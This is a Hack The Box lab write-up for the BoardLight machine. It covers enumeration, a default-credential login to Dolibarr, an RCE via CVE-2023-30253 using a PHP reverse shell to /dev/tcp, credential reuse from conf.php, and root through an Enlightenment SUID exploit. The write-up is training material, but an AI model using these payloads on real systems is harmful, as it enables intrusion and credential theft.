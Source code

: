 ```yaml
---
clayout: ctf
title: BoardLight
date: 2025-06-18
image: /ctf/hack-the-box/machines/board-light/info-card.png
type: Hack The Box

ctf:
    - name: BoardLight
      link: https://app.hackthebox.com/machines/603
      thumbnail: /ctf/hack-the-box/machines/board-light/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/603
          thumbnail: /ctf/hack-the-box/machines/board-light/pwned.png
---
```


## Enumeration

### Nmap Scan

We start by running an Nmap scan to identify open ports and associated services on the target host:

```bash
nmap -sC -sV -A -oN nmap.txt 10.10.11.11
```

**Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 062d3b851059ff7366277f0eae03eaf4 (RSA)
|   256 5903dc52873a359934447433783135fb (ECDSA)
|_  256 ab1338e43ee024b46938a9638238ddf4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

**Identified Services:**

* **SSH (Port 22):** OpenSSH 8.2p1
* **HTTP (Port 80):** Apache 2.4.41

## Web Enumeration

Accessing `http://10.10.11.11` presents a welcome page.

![Welcome Page](/ctf/hack-the-box/machines/board-light/welcome.png)

In the footer, the contact email `info@board.htb` is displayed, indicating the likely virtual host. We add it to our `/etc/hosts` file:

```bash
echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

## Subdomain Enumeration

Using Gobuster, we enumerate virtual hosts:

```bash
gobuster vhost \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -u "http://board.htb" \
  -t 20 \
  --append-domain
```

**Discovery:**

```bash
Found: crm.board.htb Status: 200 [Size: 6360]
```

We can add the discovered subdomain to `/etc/hosts`:

```bash
echo "10.10.11.11 crm.board.htb" | sudo tee -a /etc/hosts
```

Navigating to `http://crm.board.htb` reveals a login portal.

![Dolibarr Login](/ctf/hack-the-box/machines/board-light/login.png)

Using the default credentials `admin:admin`, we are able to login to the dashboard.

![Dolibarr Dashboard](/ctf/hack-the-box/machines/board-light/dashboard.png)

The dashboard identifies the service as **Dolibarr v17.0.0**.

## Vulnerability Identification

A known vulnerability, **CVE-2023-30253**, affects Dolibarr 17.0.0. Details are available in [this advisory](https://www.swascan.com/security-advisory-dolibarr-17-0-0/).

## Exploitation

Following the CVE-2023-30253 advisory:

1. We create a new website within Dolibarr.
2. We add a malicious PHP payload to a new page:

```php
<?PHP system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'"); ?>
```

Accessing the page triggers a reverse shell as the `www-data` user:

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Exploring the `/etc/passwd` file reveals a user named `larissa`. The file `conf.php` in `/var/www/html/crm.board.htb/htdocs/conf/` contains database credentials:

```php
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Using the password to attempt SSH access as `larissa` is successful:

```bash
ssh larissa@board.htb
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

The user flag is located at `/home/larissa/user.txt`.

## Privilege Escalation

Searching for SUID binaries:

```bash
find / -type f -perm -u=s 2>/dev/null
```

**Target Identified:**

* `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`

We use the existing exploit ([Exploit-DB #51180](https://www.exploit-db.com/exploits/51180)) to gain root access:

```bash
mkdir -p net
mkdir -p /dev/../tmp/;\ /tmp/exploit
echo '/bin/sh' > /tmp/exploit
chmod +x /tmp/exploit
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys \
  /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

The root flag is located at `/root/root.txt`.
